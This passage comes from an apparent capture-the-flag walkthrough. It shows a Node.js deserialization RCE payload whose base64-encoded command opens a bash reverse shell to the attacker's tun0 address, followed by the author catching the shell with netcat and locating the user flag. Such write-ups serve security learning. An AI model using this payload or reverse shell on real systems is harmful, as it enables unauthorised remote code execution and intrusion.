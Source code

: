 Now replace the command with the above command and send the request.

```json
// Payload: URL encoded semicolon and replaced all single quotes with double quotes.
// Base64 Encoded command.
{"rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45MC85MDAxIDA+JjE= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) })%3b}()"}
```

{% hint style="info" %}
Make sure to update your \`tun0\` IP address.
{% endhint %}

<figure><img src="../../.gitbook/assets/Untitled 26 (8).png" alt=""><figcaption></figcaption></figure>

This time I got the request back, and also I got the reverse shell also In the netcat listener.

<figure><img src="../../.gitbook/assets/Untitled 27 (8).png" alt=""><figcaption></figcaption></figure>

***

## Getting the User Flag

Now I searched for the user flag using the find command and found it.

<figure><img src="../../.gitbook/assets/Untitled 28 (7).png" alt=""><figcaption></figcaption></figure>
